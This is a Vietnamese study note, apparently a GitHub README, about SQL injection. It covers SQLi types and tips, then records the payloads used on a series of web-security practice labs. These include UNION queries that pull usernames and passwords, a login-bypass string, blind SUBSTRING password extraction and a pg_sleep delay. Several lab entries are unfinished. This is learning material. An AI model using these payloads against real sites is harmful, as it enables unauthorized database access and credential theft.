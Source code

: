 # SQL Injection

### Kiến thức

Hệ thống quản lý cơ sở dữ liệu (DBMS) là hệ thống phần mềm được sử dụng để lưu trữ, truy xuất và chạy các truy vấn trên dữ liệu. DBMS đóng vai trò là giao diện giữa người dùng cuối và cơ sở dữ liệu, cho phép người dùng tạo, đọc, cập nhật và xóa dữ liệu trong cơ sở dữ liệu.

Các loại SQL: MySQL, PostgreSQL, BigQuerySQL, ...

Đầu tiên cần hiểu được SQLi: khái niệm, phân loại, khai thác, ngăn chặn.

SQLi là lỗ hổng bảo mật web cho phép kẻ tấn công có thể xem trái phép cơ sở dữ liệu của trang web. Có nhiều trường hợp tệ hơn, kẻ tấn công có thể xoá và sửa dữ liệu quan trọng làm thiệt hại lớn cho người dùng và nhà phát triển.

SQLi gồm các dạng:
- In-band SQLi
    - Error-based SQLi
    - Union-based SQLi
- Inferential SQLi (Blind SQLi)
- Blind-boolean-based SQLi
    - Time-based-blind SQLi
- Out-of-band SQLi



### Kinh nghiệm

Xác định trang web sử dụng dạng database

Nên thêm null khi SELECT và có dấu -- (comment) đường sau mỗi câu truy vấn

Luôn chuyển đổi 2 cách là -- và # (%23)

Dấu # được hiểu là đánh dấu hoặc chú thích

Sử dụng  OR, AND hoặc ;, ||

Blind SQL Injection xảy ra khi ta ghi sai hoặc có câu truy vấn nhưng trang web vẫn chấp nhận rằng nó đúng

Blind SQLi: như tên, không thể thấy, ta có thể khai thác, dự đoán bằng một cái khác để đưa ra kết quả chính xác

Đọc các cheat sheet



### Trải nghiệm

#### Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
Input parameter category: 
'+OR+'1'='1

#### Lab: SQL injection vulnerability allowing login bypass
Login username: administrator' OR '1'='1

#### Lab: SQL injection attack, querying the database type and version on Oracle
Input parameter category: 
'+UNION+SELECT+banner,NULL+FROM+v$version--

#### Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft
Input parameter category:
'+UNION+SELECT+@@version,NULL%23

#### Lab: SQL injection attack, listing the database contents on non-Oracle databases
Input parameter category:
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_?'--
'+UNION+SELECT+password_?,+username_?+FROM+users_?--

#### Lab: SQL injection attack, listing the database contents on Oracle
Input parameter category: 
'+UNION+SELECT+table_name,+NULL+FROM+all_tables--
'+UNION+SELECT+column_name,+NULL+FROM+all_tab_columns+WHERE+table_name+=+'USERS_?'--
'+UNION+SELECT+USERNAME_?,+PASSWORD_?+FROM+USERS_?--

#### Lab: SQL injection UNION attack, determining the number of columns returned by the query
Input parameter category: 
'+UNION+SELECT+NULL,NULL,NULL--

#### Lab: SQL injection UNION attack, finding a column containing text
Input parameter category: 
'+UNION+SELECT+NULL,'?',NULL--

#### Lab: SQL injection UNION attack, retrieving data from other tables
Input parameter category: 
'+UNION+SELECT+username,password+FROM+users--

#### Lab: SQL injection UNION attack, retrieving multiple values in a single column
Input parameter category: 
'+UNION+SELECT+NULL,username||'~'||password+FROM+users--

#### Lab: Blind SQL injection with conditional responses
Input cookie: 
Cookie: TrackingId' AND '1'='1
Notification "Welcome back!"
Cookie: TrackingId' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), 1, 1) = 'a
Use Burp Intruder brute force
Cookie: TrackingId' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), §1§, 1) = '§a§

#### Lab: Blind SQL injection with conditional errors
Input cookie: 
Cookie: TrackingId' 

#### Lab: Visible error-based SQL injection
Input cookie: 
Cookie: TrackingId' 

#### Lab: Blind SQL injection with time delays
Input cookie: 
Using query PostgreSQL
Cookie: TrackingId'||pg_sleep(10)--

#### Lab: Blind SQL injection with time delays and information retrieval
Input cookie: 
Cookie: TrackingId' 

#### Lab: Blind SQL injection with out-of-band interaction
Input cookie: 
Cookie: TrackingId' 
#### Lab: Blind SQL injection with out-of-band data exfiltration
Input cookie: 
Cookie: TrackingId' 

#### Lab: SQL injection with filter bypass via XML encoding
Input cookie: 
Cookie: TrackingId' 


### Tham khảo

https://tuananalytic.com/tu-hoc-sql-sao-lam-loai-sql-vay-phan-1/

https://tuananalytic.com/tu-hoc-sql-thuat-ngu-database-hay-gap-phan-2/

https://viblo.asia/p/sql-injection-la-gi-co-bao-nhieu-kieu-tan-cong-sql-injection-m68Z0QnMlkG


